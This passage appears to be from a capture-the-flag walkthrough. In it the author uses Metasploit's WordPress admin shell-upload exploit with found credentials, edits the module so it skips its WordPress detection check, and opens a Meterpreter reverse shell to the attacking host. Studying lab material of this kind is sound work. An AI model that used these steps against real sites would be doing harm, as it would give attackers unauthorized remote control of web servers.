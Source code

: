 ```console
msf exploit(wp_admin_shell_upload) > set PASSWORD ER28-0652
PASSWORD => ER28-0652
msf exploit(wp_admin_shell_upload) > set RHOST 192.168.1.9
RHOST => 192.168.1.9
msf exploit(wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 192.168.1.7:4444 
[-] Exploit aborted due to failure: not-found: The target does not appear to be using WordPress
[*] Exploit completed, but no session was created.
```

Oh... what? It seems that the exploit is working, but the website isn't being detected as a WordPress site.

Looking at the [source code](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/webapp/wp_admin_shell_upload.rb) for the exploit, I feel that the following line is causing problems.

```ruby
fail_with(Failure::NotFound, 'The target does not appear to be using WordPress') unless wordpress_and_online?
```

So I went ahead and opened the exploit to edit it...

```console
root@kali:~# gedit /usr/share/metasploit-framework/modules/exploits/unix/webapp/wp_admin_shell_upload.rb
```

Once open, I commented out the __fail_with__ error (usign the # character) to prevent the shell from failing upon WordPress detection.

```ruby
 def exploit
    #fail_with(Failure::NotFound, 'The target does not appear to be using WordPress') unless wordpress_and_online?
```

Once done, I went back into [MSF](https://www.offensive-security.com/metasploit-unleashed/msfconsole/), reloaded the modules, and ran the exploit again.

```console
msf exploit(wp_admin_shell_upload) > reload
[*] Reloading module...
msf exploit(wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 192.168.1.7:4444 
[*] Authenticating with WordPress using elliot:ER28-0652...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/OTZuwKynuy/CAEHwDnNnV.php...
[*] Sending stage (33721 bytes) to 192.168.1.9
[*] Meterpreter session 1 opened (192.168.1.7:4444 -> 192.168.1.9:53258) at 2016-09-30 23:26:06 -0500
[!] This exploit may require manual cleanup of 'CAEHwDnNnV.php' on the target
[!] This exploit may require manual cleanup of 'OTZuwKynuy.php' on the target

meterpreter > 
```
